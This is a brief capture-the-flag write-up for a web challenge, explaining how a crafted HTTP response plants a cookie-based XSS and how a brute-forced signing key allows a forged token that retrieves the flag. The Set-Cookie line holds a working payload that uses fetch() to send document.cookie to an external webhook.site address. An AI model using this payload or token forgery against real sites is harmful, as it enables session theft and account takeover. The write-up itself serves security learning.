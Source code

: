 # learn HTTP final
## Solution
We can produce any HTTP response, just url-encode it and pass to the input to get the url to produce your HTTP response.

Here, the XSS is found in `/learn` (innerHTML is set as cookie) but the bot visits `/resp`, so we need to make a payload such that it will set the cookie and change it's location to learn.

```
HTTP/1.1 302 OK
Set-Cookie: name=<img src="lol" onerror="fetch(`https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c?${document.cookie}`)" />
Location: http://localhost:5000/learn


```

![hook response](imgs/hook.png)

We get the token in the request, after bruting the signing key, we find it as `danger`

changing the id to 2 and sigining the payload, we request to `/flag` with cookie as `token=<new_token>`, we get the flag

## Flag
`pearl{7ime_to_ch4ng3_mY_S3cr3ts}`